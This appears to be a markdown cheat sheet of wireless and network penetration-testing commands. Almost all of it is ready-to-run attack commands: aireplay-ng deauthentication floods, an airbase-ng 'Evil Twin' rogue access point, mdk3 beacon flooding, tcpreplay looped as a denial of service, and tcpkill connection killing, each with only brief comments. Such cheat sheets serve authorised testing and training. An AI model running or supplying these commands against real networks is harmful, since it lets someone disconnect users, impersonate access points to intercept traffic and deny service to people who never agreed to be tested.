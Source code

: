 Wireless Pen-testing cheats
===========================

<pre>
# wireless interface must be in promiscuous mode
$ iwconfig #shows all network devices and their modes
</pre>


<h4>Packet Captures</h4>
<pre>
$ ifconfig wlan0 up #brings up wireless card
$ airmon-ng start wlan0 #creates interface on top of the card
$ ifconfig #ensure interface mon0 has been created
$ wireshark & 

click capture interfaces
click start on mon0
</pre>


<h4>Deauthentication Packets:</h4>
<pre>
aireplay-ng --deauth 0 -a <ap-mac-address> -c <client-mac-address> mon0 
#mac address of SSID is found in frame control as destination
</pre>

<h4>Evil Twin attack:</h4>
<pre>
$ airmon-ng start wlan0
$ airodump-ng mon0 #find the AP
$ airbase-ng -a AA:AA:AA:AA:AA:AA -e public -c 11 mon0 #at0 is created as faux interface
$ ifconfig at0 up 
$ aireplay-ng --deauth 0 -a <ap-mac-address>  mon0
</pre>


<h4>MDK (murderdeathkill)</h4>
<pre>
$ mdk3 mon0 b -n pwnsauce     #creates SSID 'pwnsauce' on mon0 broadcast on all channels
</pre>


<h4>Packet Manipulation</h4>
<pre>
$ tcpdump -i eth0 -XX -w dump.pcap   #capture packets in ascii and hex 
$ tcpdump -nvvX -s0 -i  eth0 tcp portrange 22-23   #capture tcp traffic on ports 22/23
$ dumpcap -I eth0 -a duration:30 -w file dump.pcap   #capture packets for 30 and dump to file
$ file2cable -i eth0 -f dump.pcap   #replay pcap from file
$ tcpreplay --topspeed --loop=0 --intf=eth0 dump.pcap --mbps=10|100|1000   #fuzz, dos from file
</pre>


#### tcpkill

	$ apt-get install dnsiff
	$ tcpkill -i eth0 port 21     # kill outgoing ftp connection
	$ tcpkill host [IP_ADDRESS]   # kill packets arriving from or leaving ip address


